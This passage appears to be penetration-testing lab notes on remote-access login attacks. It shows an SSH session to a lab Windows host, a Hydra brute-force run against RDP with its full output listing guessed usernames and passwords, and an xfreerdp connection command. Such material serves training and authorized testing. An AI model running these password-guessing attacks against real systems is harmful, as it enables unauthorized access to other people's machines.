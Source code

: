 ```sh
ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

## Hydra - RDP

```sh
hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

* Example tools [Remmina](https://remmina.org/), [rdesktop](http://www.rdesktop.org/), [xfreerdp](https://linux.die.net/man/1/xfreerdp)

#### xFreeRDP

```sh
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
